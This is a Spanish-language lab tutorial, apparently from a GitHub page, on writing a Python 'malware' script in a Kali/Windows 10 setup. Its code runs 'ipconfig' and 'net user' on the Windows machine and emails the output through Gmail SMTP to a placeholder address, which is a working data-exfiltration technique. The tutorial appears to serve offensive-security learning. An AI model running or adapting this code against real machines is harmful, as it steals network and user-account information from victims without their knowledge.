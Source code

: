 Desde nuestra máquina **Kali Linux**, creamos un directorio llamado **Malware** para compartir ciertos recursos más adelante.

```bash
mkdir malware
```

### Creación del archivo en Windows

En nuestra máquina **Windows 10**, creamos un archivo llamado **Malware.txt**. Si desde el cmd nos dirigimos al escritorio y ejecutamos `dir`, veremos que el archivo aparece como `malware.py.txt`, por lo que lo renombraremos para que se lea como `malware.py`:

```cmd
move malware.py.txt malware.py
```

### Edición del archivo `.py`

Una vez renombrado, lo abrimos con clic derecho y seleccionamos `Edit with IDLE`. Configuramos el tema en **dark**.

---

# Testeo del Envío de Información por Correo Electrónico

Vamos a testear si el envío de correos está funcionando, enviando el resultado de `ipconfig` a nuestro correo.

### Código Python para envío de correo

```python
#!/usr/bin/python3

import subprocess
import smtplib
from email.mime.text import MIMEText

def send_email(subject, body, sender, recipients, password):
    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = ', '.join(recipients)

    with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:
        smtp_server.login(sender, password)
        smtp_server.sendmail(sender, recipients, msg.as_string())

    print(f"\n[+] Email sent Successfully!\n")

def run_command(command):
    output_command = subprocess.check_output(command, shell=True)
    return output_command.decode("cp850")

if __name__ == '__main__':
    ipconfig_output = run_command("ipconfig")
    users_info = run_command("net user")

    send_email("Ipconfig INFO", ipconfig_output, "tucorreo@gmail.com", ["tucorreo@gmail.com"], "tu clave de aplicación")
    send_email("Users INFO", users_info, "tucorreo@gmail.com", ["tucorreo@gmail.com"], "tu clave de aplicación")
```

